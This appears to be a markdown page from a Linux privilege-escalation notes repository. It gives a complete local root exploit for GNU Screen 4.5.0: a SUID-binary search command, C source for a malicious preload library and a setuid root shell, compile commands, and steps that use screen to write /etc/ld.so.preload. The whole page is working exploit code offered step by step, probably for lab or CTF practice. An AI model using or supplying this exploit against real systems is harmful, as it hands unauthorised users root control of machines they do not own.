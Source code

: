 ```bash
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/ab99952d-a793-47a9-889f-b0cc5152ad2c)

* Compile First
- Save this file as `libhax.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- Save this file as `rootshell.c`
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

- Let’s compile it

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc --static -o rootshell rootshell.c
```

- Now we have both the file

1. Upload `libhax.so` and `rootshell` to target machine in `/tmp` directory
2. Also change the permission of both the file to executable
```
chmod +x rootshell
chmod +x libhax
```
4. Run Below Commands
```bash
cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
/tmp/rootshell
id
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/7cad8e25-8076-4a96-9a7e-88499f9df884)
